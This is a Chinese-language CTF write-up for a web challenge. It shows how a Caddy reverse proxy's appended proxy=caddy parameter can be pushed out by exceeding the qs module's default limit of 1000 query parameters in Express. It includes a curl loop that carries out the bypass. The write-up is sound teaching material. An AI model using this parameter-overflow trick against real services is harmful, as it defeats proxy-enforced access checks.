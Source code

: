 #Web #caddy #nodejs #express #qs 

碎碎念
---
这题是CrackTC的心理阴影qaq，~~抄袭自~~灵感来源于日本人主办的一个CTF（忘了名字）的签到题，算是第一次打正式比赛，然后因为这题爆零了wuwuwu

---

`Caddyfile`
---

```c
:80 {
    rewrite * {path}?{query}&proxy=caddy
    reverse_proxy 127.0.0.1:2333
}
```

这里是caddy作为反向代理服务器，把请求分发给2333端口之前在url的结尾加上了`proxy=caddy`

`index.js`
---

```js
require("express")()
    .get("/", (request, response) => {
        request.query.proxy.includes("caddy")
            ? response.status(400).send("I don't like caddy:(")
            : response.send(`\\/\\/\\/caddy wa saikou!\\/\\/\\/<br>${process.env.FLAG ?? "Spirit{fake-flag-qwq}"}`);
    })
    .listen(2333, "0.0.0.0")
```

这里是node作为后端服务器监听2333端口，如果url查询中的proxy参数包含caddy就无法获得flag

因为docker镜像只expose并映射了80端口~~（frp好像也只通了80端口）~~，所以想要直接访问2333端口是行不通的～

在这种情况下，最有可能取得突破的地方就是双方对数据的不同解读啦（利用数据一致性上的漏洞或许算是比较常见的思路）

我们尝试阅读express关于url query的[文档](https://expressjs.com/en/4x/api.html#req.query)

> The value of this property can be configured with the [query parser application setting](https://expressjs.com/en/4x/api.html#app.settings.table) to work how your application needs it. A very popular query string parser is the [`qs` module](https://www.npmjs.com/package/qs), and this is used by default.

[ljharb/qs](https://github.com/ljharb/qs)

在README中可以找到这样一段话

> The depth limit helps mitigate abuse when **qs** is used to parse user input, and it is recommended to keep it a reasonably small number.
> 
> For similar reasons, by default **qs** will only parse up to 1000 parameters.

默认情况下qs会限制1000个参数，多复制粘贴几遍就能把最后的caddy顶掉

也不能太长，不然也要罢工啦～

```shell
query='?proxy=none'

for i in {1..999}
do
    query=$query'&proxy=none'
done

curl 'http://<host>:<port>/'$query
```

![[Pasted image 20230509204553.png|800]]
